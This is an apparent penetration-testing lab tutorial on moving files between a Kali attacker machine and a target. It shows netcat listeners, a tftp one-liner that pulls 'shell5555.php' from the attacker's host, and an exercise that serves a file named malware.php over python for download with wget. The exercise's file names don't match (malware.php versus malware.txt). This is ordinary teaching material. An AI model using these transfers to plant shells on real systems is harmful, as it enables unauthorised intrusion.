 
## Netcat
Another easy way to transfer files is by using netcat.

Netcat is a command line tool for writing and reading data in the network. For data transfer, Netcat uses the TCP/IP and UDP network protocols. Originally, this tool comes from the Unix universe but today it is available on all platforms

Because of its versatility, Netcat is often referred to as the "Swiss Army knife of TCP/IP". For example, it can be used to diagnose errors and problems that jeopardize the functionality and security of a network. Netcat's range of features also includes port scanning, data streaming or simple data transfers. In addition, it can be used to set up chat and web servers as well as to initiate email requests. This simple software was developed in the mid-1990s and can operate in both server and client mode.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because that will kill your session.

So instead you can connect from the target machine like this.

On kali machine:
````
nc -lvp 4444 < file
````

On student machine:
````
nc 10.12.181.X 4444 > file
````


## Tftp
On some rare machine we do not have access to nc and wget, or curl. But we might have access to tftp. Some versions of tftp are run interactively, like this:
````
$ tftp 10.12.181.X
tftp> get myfile.txt
````

If we can't run it interactively, for whatever reason, we can do this trick:

````
tftp 10.12.181.X <<< "get shell5555.php shell5555.php"
````

## Exercises 

1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, ccreate a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
1. On your Student machine, download the malware.txt file with the wget command.
    > Your command :

